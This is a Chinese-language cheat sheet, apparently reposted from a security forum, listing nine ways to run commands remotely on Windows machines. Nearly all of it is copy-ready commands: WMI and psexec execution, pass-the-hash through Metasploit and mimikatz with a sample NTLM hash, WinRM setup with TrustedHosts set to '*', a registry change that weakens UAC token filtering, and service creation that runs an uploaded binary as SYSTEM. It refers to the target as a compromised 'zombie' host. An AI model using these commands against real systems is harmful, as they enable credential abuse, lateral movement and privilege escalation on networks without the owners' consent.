

Windows远程执行cmd命令的9种方法
一、远程执行命令方式及对应端口:
IPC$+AT 445
PSEXEC 445
WMI 135
Winrm 5985(HTTP)&5986(HTTPS)
二、9种远程执行cmd命令的方法：
1.WMI执行命令方式,无回显：
wmic /node:192.168.1.158 /user:pt007 /password:admin123 process call create "cmd.exe /c ipconfig>d:\result.txt"
2.使用Hash直接登录Windows（HASH传递）
抓取windows hash值,得到administrator的hash：
598DDCE2660D3193AAD3B435B51404EE:2D20D252A479F485CDF5E171D93985BF
msf调用payload：
use exploit/windows/smb/psexec
show options
set RHOST 192.168.81.129
set SMBPass 598DDCE2660D3193AAD3B435B51404EE:2D20D252A479F485CDF5E171D93985BF
set SMBUser Administrator
show options
run
3. mimikatz传递hash方式连接+at计划任务执行命令：
mimikatz.exe privilege::debug "sekurlsa::pth /domain:. /user:administrator /ntlm:2D20D252A479F485CDF5E171D93985BF" //传递hash
dir \\192.168.1.185\c$
4.WMIcmd执行命令,有回显：
WMIcmd.exe -h 192.168.1.152 -d hostname -u pt007 -p admin123 -c "ipconfig"程序下载地址：
https://github.com/nccgroup/WMIcmd/releases
5.Cobalt strkie远程执行命令与hash传递攻击

6.psexec.exe远程执行命令
psexec /accepteula //接受许可协议
sc delete psexesvc
psexec \\192.168.1.185 -u pt007 -p admin123 cmd.exe
7.psexec.vbs远程执行命令
cscript psexec.vbs 192.168.1.158 pt007 admin123 "ipconfig"
8.winrm远程执行命令
//肉机上面快速启动winrm服务，并绑定到5985端口：
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
netstat -ano|find "5985"
//客户端连接方式：
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 "whoami /all"
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 cmd
//UAC问题,修改后，普通管理员登录后也是高权限:
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 "whoami /groups"
9.远程命令执行sc
//建立ipc连接(参见net use + at)后上传等待运行的bat或exe程序到目标系统上，创建服务（开启服务时会以system 权限在远程系统上执行程序）：
net use \\192.168.17.138\c$ "admin123" /user:pt007
net use
dir \\192.168.17.138\c$
copy test.exe \\192.168.17.138\c$
sc \\192.168.17.138 create test binpath= "c:\test.exe"
sc \\192.168.17.138 start test
sc \\192.168.17.138 del test

来源：先知社区
作者：roothex
如有侵权，请联系删除